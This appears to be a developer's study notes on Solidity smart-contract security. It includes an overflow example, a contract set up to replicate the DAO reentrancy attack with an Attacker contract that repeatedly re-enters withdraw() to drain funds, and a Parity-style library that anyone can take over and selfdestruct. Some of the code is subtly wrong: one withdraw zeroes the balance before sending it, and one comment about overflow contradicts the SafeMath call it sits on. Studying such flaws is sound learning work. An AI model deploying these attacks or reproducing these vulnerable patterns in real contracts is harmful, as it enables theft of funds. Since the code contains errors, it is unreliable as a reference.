 # Saula-Atama

Software Develpment Projects\
Scales
Fantasy Football
Coin Tracker
seasons2
Pupparazzi
Royal KV

BlockChain
Multi Sig Wallet
Decentralised Exchange
Coin Tracker
Voting.
Token.





// The basis of security checks for any solidity smart contract is CHECKS-EFFECTS-INTERACTIONS Pattern.

pragma solidity ^0.4.10;

import "./SafeMath.sol";

contract Overflow{

    mapping (address=>uint) balances;

    function contribute() payable{
        balances[msg.sender] = msg.value;
    }

    function getBalance() constant returns (uint){
        return balances[msg.sender];
    }

    function batchSend(address[] _receivers, uint _value){
        // this line overflows
        uint total = SafeMath.mul(_receivers.length, _value);
        require(balances[msg.sender]>=total);

        // subtract from sender
        balances[msg.sender] = SafeMath.sub(balances[msg.sender], total);

        for(uint i=0;i<_receivers.length;i++){
            balances[_receivers[i]] = SafeMath.add(balances[_receivers[i]], _value);
        }
    }

}






pragma solidity ^0.4.10;

library SafeMath {

  function mul(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a * b;
    assert(a == 0 || c / a == b);
    return c;
  }

  function div(uint256 a, uint256 b) internal constant returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    //assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  function sub(uint256 a, uint256 b) internal constant returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  function add(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}



REPLICATING THE DAO ATTACK
pragma solidity ^0.4.8;


contract Fundraiser{
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        if(balances[msg.sender] == 0){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

import "./Fundraiser.sol";

contract Attacker{
    
    address public fundraiserAddress;
    uint public drainTimes = 0;
    
    function Attacker(address victimAddress){
        fundraiserAddress = victimAddress;
    }
 
    function() payable{
        if(drainTimes<3){
            drainTimes++;
            Fundraiser(fundraiserAddress).withdraw();
        }
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
    function payMe() payable{
        Fundraiser(fundraiserAddress).contribute.value(msg.value)();
    }
    
    function startScam(){
        Fundraiser(fundraiserAddress).withdraw();
    }
}
// what the attcker code soes is that it kkeps calling the function of the DAO without the DAO recordeing that it has called a refund.
// Coding smart contracts , keep it simple, a good contract is simple to read and written in a simple manner, adding complexiticity like adding librarys or dependencies in libraries will present vulnerablities to your smart contract, example in injecting malicious code, calling a public function with fallbacks. which will cause major damages.


Parity Freeze attack

pragma solidity ^0.4.8;
import "./Library.sol";

contract Fundraiser{
    
    Library lib = Library(0xbbf289d846208c16edc8474705c748aff07732db);
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        //if(balances[msg.sender] == 0)
        if(lib.isNotPositive(balances[msg.sender])){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

contract Library{
    
    address owner;
    
    function isNotPositive(uint number) returns (bool){
        if(number<=0){
            return true;
        }
        return false;
    }
    

    function destroy() public onlyOwner {
        selfdestruct(owner);
    }
    
    modifier onlyOwner {
        if(msg.sender != owner){
            throw;
        }
        _;
    }
    
    function initOwner(){
        if(owner==address(0)){
            owner = msg.sender;
        }
        else{
            throw;
        }
    }
    
}

The DAO hacker was the recursive refund function hack, the parity bug was when they nuked the library rendering the fuction unuseable.


